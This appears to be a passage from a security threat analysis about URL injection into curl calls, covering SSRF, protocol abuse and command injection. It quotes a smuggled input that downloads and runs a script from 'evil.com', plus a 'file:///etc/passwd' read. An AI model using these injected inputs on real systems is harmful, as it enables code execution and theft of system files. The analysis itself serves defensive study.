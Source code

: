 ### 4. Deep Analysis of URL Injection/Manipulation Attack Surface

The URL Injection/Manipulation attack surface arises when an application dynamically constructs URLs without proper sanitization of the components used in the construction. The reliance on `curl` to fetch these URLs introduces specific risks due to `curl`'s powerful features and command-line interface.

**4.1. Understanding the Attack Vector:**

The core of the vulnerability lies in the application's trust in the data used to build URLs. If an attacker can influence this data, they can inject malicious components into the URL string. When the application then uses this crafted URL with `curl`, `curl` will attempt to process it as instructed.

**4.2. Curl's Role in Amplifying the Risk:**

`curl` is a versatile tool with numerous options that can be exploited when combined with a manipulated URL. Here's a breakdown of how `curl` contributes to the risk:

* **Command-line execution:**  The example provided (`evil.com -o /tmp/malicious_script && bash /tmp/malicious_script`) highlights a critical danger. If the application directly embeds the constructed URL into a shell command without proper quoting or escaping, `curl` might interpret parts of the injected URL as command-line options. The `-o` option, in particular, allows writing the downloaded content to a specified file, which can be leveraged to write malicious scripts.
* **URL parsing and interpretation:** While `curl` generally handles URL parsing correctly, vulnerabilities can arise if the application doesn't properly sanitize input that influences the hostname, path, or query parameters. Attackers can use URL encoding or other techniques to bypass basic sanitization attempts.
* **Protocol handling:** `curl` supports various protocols (HTTP, HTTPS, FTP, etc.). An attacker might be able to force `curl` to use a different protocol than intended, potentially interacting with unexpected services or bypassing security measures. For example, if the application intends to fetch an HTTPS resource, an attacker might inject `file:///etc/passwd` to attempt to read local files.
* **Authentication and authorization:**  If the application relies on URL parameters for authentication or authorization, a manipulated URL could bypass these checks or impersonate other users.
* **Server-Side Request Forgery (SSRF):**  A primary concern is the ability to make requests to internal or unintended external servers. By controlling the hostname or IP address in the URL, an attacker can force the application's server to interact with other systems. This can lead to:
    * **Accessing internal services:**  Reaching services not exposed to the public internet.
    * **Port scanning:**  Discovering open ports on internal networks.
    * **Data exfiltration:**  Retrieving sensitive information from internal systems.
    * **Exploiting vulnerabilities in other systems:**  Using the application as a proxy to attack other internal services.
* **Information Disclosure:** Even without direct command execution, a manipulated URL can lead to information disclosure. For example, an attacker might be able to:
    * Access files or directories they shouldn't have access to.
    * Trigger error messages that reveal sensitive information about the application or its environment.
    * Access internal APIs or data sources.

**4.3. Deeper Dive into the Example:**

The provided example, `curl "https://{user_input}.example.com/data"`, with the malicious input `evil.com -o /tmp/malicious_script && bash /tmp/malicious_script`, illustrates a severe command injection vulnerability.
